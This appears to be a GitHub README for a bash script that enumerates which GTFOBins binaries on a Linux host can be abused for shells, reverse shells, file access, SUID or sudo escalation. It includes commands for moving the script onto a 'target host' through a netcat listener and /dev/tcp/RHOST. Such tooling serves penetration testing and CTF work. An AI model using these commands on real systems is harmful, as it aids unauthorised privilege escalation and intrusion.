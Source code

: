 # Overview

A 7k bash script that enumerates which GTFOBins are available.

# Usage

## Full listing

Run without arguments for a full listing of each command available and the functions it provides:

```
./gtofbinsenum.sh
```

## Specific listing

Run with a single argument for a listing of commands available providing the specified function. I.e. one of the following:

```
./gtfobinsenum.sh bind-shell
./gtfobinsenum.sh capabilities
./gtfobinsenum.sh command
./gtfobinsenum.sh file-download
./gtfobinsenum.sh file-read
./gtfobinsenum.sh file-upload
./gtfobinsenum.sh file-write
./gtfobinsenum.sh library-load
./gtfobinsenum.sh limited-suid
./gtfobinsenum.sh non-interactive-bind-shell
./gtfobinsenum.sh non-interactive-reverse-shell
./gtfobinsenum.sh reverse-shell
./gtfobinsenum.sh shell
./gtfobinsenum.sh sudo
./gtfobinsenum.sh suid
```

# Example output

## Full listing

This listing is grep friendly:

```
./gtfobinsenum.sh | head -n 10
agetty              suid
apt-get             shell,sudo
apt                 shell,sudo
awk                 shell,non-interactive-reverse-shell,non-interactive-bind-shell,file-write,file-read,suid,sudo,limited-suid
base32              file-read,suid,sudo
base64              file-read,suid,sudo
basenc              file-read,suid,sudo
bash                shell,reverse-shell,file-upload,file-download,file-write,file-read,library-load,suid,sudo
cat                 file-read,suid,sudo
chmod               suid,sudo
```

## Specific listing

This listing provides convenience URLs to gtfobins.github.io:

```
$ ./gtfobinsenum.sh file-download
bash                https://gtfobins.github.io/gtfobins/bash/#file-download
tar                 https://gtfobins.github.io/gtfobins/tar/#file-download
```

# Initial download

If you want to use `gtfobinsenum.sh` before knowing which `file-download` functions are available, then you might be somewhat stuck.

Don't forget to `chmod +x gtfobinsenum.sh` before running it if you're putting it on disk.

## With bash

On your host:
```
nc -l -p 12345 < gtfobinsenum.sh
```

On the target host:
```
cat < /dev/tcp/RHOST/12345 > gtfobinsenum.sh &
```

## With curl

```
curl -LO https://raw.githubusercontent.com/fx2301/gtfobinsenum/main/gtfobinsenum.sh
```

## With wget

```
wget https://raw.githubusercontent.com/fx2301/gtfobinsenum/main/gtfobinsenum.sh
```

## With perl

At the time of writing, [GTFOBins](https://gtfobins.github.io/gtfobins/perl/#file-download) didn't list perl as being able to `file-download`. Google "IO::Socket::INET" for a solution.

# Regenerating

If you need to regenerate the bash script:

1. Regenerate `gtfobins.json` by running the following JavaScript on https://gtfobins.github.io:
  ```javascript
  JSON.stringify(Array.from(document.querySelectorAll('.bin-name')).map((el) => { return {bin: el.innerText, functions: Array.from(el.parentNode.parentNode.querySelectorAll('.function-list li')).map((el) => el.innerText)}} ))
  ```
2. Run `python3 generate.py`

